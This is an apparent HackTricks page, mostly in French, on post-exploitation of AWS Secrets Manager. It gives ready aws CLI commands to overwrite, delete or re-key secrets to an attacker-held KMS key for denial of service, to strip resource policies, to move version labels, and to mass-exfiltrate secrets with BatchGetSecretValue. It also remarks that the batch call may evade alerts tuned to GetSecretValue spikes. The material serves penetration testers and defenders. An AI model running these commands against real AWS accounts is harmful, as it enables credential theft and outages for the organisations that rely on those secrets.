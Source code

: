 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Pour plus d'informations, consultez :

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Lire les secrets

Les **secrets eux-mêmes sont des informations sensibles**, [consultez la page privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) pour apprendre comment les lire.

### DoS Changer la valeur du secret

En changeant la valeur du secret, vous pourriez **DoS tous les systèmes qui dépendent de cette valeur.**

> [!WARNING]
> Notez que les valeurs précédentes sont également stockées, il est donc facile de revenir à la valeur précédente.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Si l'attaquant dispose de la permission secretsmanager:UpdateSecret, il peut configurer le secret pour utiliser une KMS key appartenant à l'attaquant. Cette clé est initialement configurée de manière à ce que n'importe qui puisse y accéder et l'utiliser, ce qui permet de mettre à jour le secret avec la nouvelle clé. Si la clé n'était pas accessible, le secret ne pourrait pas être mis à jour.

Après avoir changé la KMS key du secret, l'attaquant modifie la configuration de sa KMS key afin que seul lui puisse y accéder. Ainsi, dans les versions ultérieures du secret, celui-ci sera chiffré avec la nouvelle KMS key et, comme il n'y aura plus d'accès à celle-ci, la possibilité de récupérer le secret sera perdue.

Il est important de noter que cette inaccessibilité ne se produira que dans les versions ultérieures, après que le contenu du secret aura changé, puisque la version actuelle est toujours chiffrée avec la KMS key originale.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Le nombre minimum de jours pour supprimer un secret est de 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Il est possible de restaurer un secret, ce qui permet de récupérer des secrets qui ont été programmés pour suppression, puisque la période minimale de suppression des secrets est de 7 jours et la maximale est de 30 jours. Associée à la permission secretsmanager:GetSecretValue, cela permet de récupérer leur contenu.

Pour récupérer un secret en cours de suppression, vous pouvez utiliser la commande suivante :
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Cette action permet de supprimer la resource policy qui contrôle qui peut accéder à un secret. Cela pourrait entraîner un DoS si la resource policy était configurée pour autoriser l'accès à un ensemble spécifique d'utilisateurs.

Pour supprimer la resource policy :
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Les états d'un secret servent à gérer ses versions. AWSCURRENT marque la version active utilisée par les applications, AWSPREVIOUS conserve la version précédente pour pouvoir revenir en arrière si nécessaire, et AWSPENDING est utilisé dans le processus de rotation pour préparer et valider une nouvelle version avant de la rendre courante.

Les applications lisent toujours la version marquée AWSCURRENT. Si quelqu'un déplace ce label vers la mauvaise version, les applications utiliseront des identifiants invalides et risquent d'échouer.

AWSPREVIOUS n'est pas utilisé automatiquement. Toutefois, si AWSCURRENT est supprimé ou réaffecté incorrectement, il peut sembler que tout fonctionne encore avec la version précédente.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (jusqu'à 20 par appel)

Abuse the Secrets Manager BatchGetSecretValue API to retrieve up to 20 secrets in a single request. Cela peut réduire considérablement le volume d'appels API comparé à l'itération de GetSecretValue pour chaque secret. Si des filtres sont utilisés (tags/name), la permission ListSecrets est également requise. CloudTrail enregistre néanmoins un événement GetSecretValue par secret récupéré dans le batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue pour chaque secret ciblé
- secretsmanager:ListSecrets si --filters est utilisé
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Notez que la permission `secretsmanager:BatchGetSecretValue` n'est pas suffisante pour récupérer des secrets ; vous avez également besoin de `secretsmanager:GetSecretValue` pour chaque secret que vous souhaitez récupérer.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrer par filtres (tag key/value ou préfixe de nom)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Gestion des échecs partiels
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impact
- Récupération rapide “smash-and-grab” de nombreux secrets avec moins d'appels API, pouvant potentiellement contourner des alertes configurées pour des pics de GetSecretValue.
- Les logs CloudTrail incluent toujours un événement GetSecretValue par secret récupéré par lot.
{{#include ../../../../banners/hacktricks-training.md}}
